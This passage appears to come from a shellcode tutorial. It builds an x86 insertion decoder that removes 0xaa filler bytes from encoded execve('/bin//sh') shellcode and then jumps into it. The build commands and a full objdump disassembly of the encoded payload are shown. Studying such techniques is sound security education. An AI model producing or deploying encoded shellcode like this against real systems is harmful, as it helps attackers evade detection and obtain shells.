 It will continue to happen till the time we **do not** hit an 0xaa
at even location and when this happens immediately we know that we
have finished decoding and transfer goes to `EncodedShellcode` where
our shellcode executes.

Hopefully, everything is ok. Let me go ahead and compile and link it.

```
nasm -f elf32 insertion-decoder.nasm
ld -o insertion-decoder insertion-decoder.o
```

Let use `objdump` to check we don't have any NULLs.

```
$ objdump -d insertion-decoder -M intel

insertion-decoder:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	eb 1d                	jmp    804807f <call_shellcode>

08048062 <decoder>:
 8048062:	5e                   	pop    esi
 8048063:	8d 7e 01             	lea    edi,[esi+0x1]
 8048066:	31 c0                	xor    eax,eax
 8048068:	b0 01                	mov    al,0x1
 804806a:	31 db                	xor    ebx,ebx

0804806c <decode>:
 804806c:	8a 1c 06             	mov    bl,BYTE PTR [esi+eax*1]
 804806f:	80 f3 aa             	xor    bl,0xaa
 8048072:	75 10                	jne    8048084 <EncodedShellcode>
 8048074:	8a 5c 06 01          	mov    bl,BYTE PTR [esi+eax*1+0x1]
 8048078:	88 1f                	mov    BYTE PTR [edi],bl
 804807a:	47                   	inc    edi
 804807b:	04 02                	add    al,0x2
 804807d:	eb ed                	jmp    804806c <decode>

0804807f <call_shellcode>:
 804807f:	e8 de ff ff ff       	call   8048062 <decoder>

08048084 <EncodedShellcode>:
 8048084:	31 aa c0 aa 50 aa    	xor    DWORD PTR [edx-0x55af5540],ebp
 804808a:	68 aa 2f aa 2f       	push   0x2faa2faa
 804808f:	aa                   	stos   BYTE PTR es:[edi],al
 8048090:	73 aa                	jae    804803c <_start-0x24>
 8048092:	68 aa 68 aa 2f       	push   0x2faa68aa
 8048097:	aa                   	stos   BYTE PTR es:[edi],al
 8048098:	62 aa 69 aa 6e aa    	bound  ebp,QWORD PTR [edx-0x55915597]
 804809e:	89 aa e3 aa 50 aa    	mov    DWORD PTR [edx-0x55af551d],ebp
 80480a4:	89 aa e2 aa 53 aa    	mov    DWORD PTR [edx-0x55ac551e],ebp
 80480aa:	89 aa e1 aa b0 aa    	mov    DWORD PTR [edx-0x554f551f],ebp
 80480b0:	0b aa cd aa 80 aa    	or     ebp,DWORD PTR [edx-0x557f5533]
```
